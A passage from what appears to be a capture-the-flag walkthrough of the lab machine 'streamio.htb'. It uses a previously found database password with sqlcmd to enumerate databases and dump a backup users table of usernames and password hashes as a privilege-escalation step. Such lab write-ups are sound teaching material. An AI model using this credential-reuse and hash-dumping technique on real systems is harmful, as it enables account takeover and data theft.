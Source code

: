 We have a shell as `Yoshihide` which is normal medium integrity user. 

# Privilege Escalation

## DB Enumeration using Yoshihide

We've got username and password for Database before, so let's check it

```
PS C:\inetpub\streamio.htb\admin> sqlcmd -S localhost -U db_admin -P 'B1@hx31234567890' -Q "select name from sys.databases;"
sqlcmd -S localhost -U db_admin -P 'B1@hx31234567890' -Q "select name from sys.databases;"
name                                                                                                                            
--------------------------------------------------------------------------------------------------------------------------------
master                                                                                                                          
tempdb                                                                                                                          
model                                                                                                                           
msdb                                                                                                                            
STREAMIO                                                                                                                        
streamio_backup
```

## MSSQL DB Enumeration
There's `streamio_backup` as well.  Let's get users from there:

```
PS C:\inetpub\streamio.htb\admin> sqlcmd -S localhost -U db_admin -P 'B1@hx31234567890' -d streamio_backup -Q "select * from users;"
sqlcmd -S localhost -U db_admin -P 'B1@hx31234567890' -d streamio_backup -Q "select * from users;"
id          username                                           password                                          
----------- -------------------------------------------------- --------------------------------------------------
          1 nikk37                                             389d14cb8e4e9b94b137deb1caf0612a                  
          2 yoshihide                                          b779ba15cedfd22a023c4d8bcf5f2332                  
          3 James                                              c660060492d9edcaa8332d89c99c9239                  
          4 Theodore                                           925e5408ecb67aea449373d668b7359e                  
          5 Samantha                                           083ffae904143c4796e464dac33c1f7d                  
          6 Lauren                                             08344b85b329d7efd611b7a7743e8a09                  
          7 William                                            d62be0dc82071bccc1322d64ec5b6c51                  
          8 Sabrina                                            f87d3c0d6c8fd686aacc6627f1f493a5  
```
